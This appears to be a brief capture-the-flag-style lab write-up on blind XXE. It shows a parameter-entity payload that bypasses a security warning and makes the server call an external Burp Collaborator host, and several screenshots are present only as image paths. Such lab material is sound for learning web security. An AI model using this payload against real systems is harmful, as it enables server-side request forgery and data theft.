



If we try to perform a XXE attack, a security warning is displayed:

In order to bypass this, we can use the XML parameter entities, that has this payload:
`<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://wffns0aemo7wmyf60b8vih5sdjjc76vv.oastify.com"> %xxe; ]>`

We can send this request:

And Burp Collaborator displays the request:
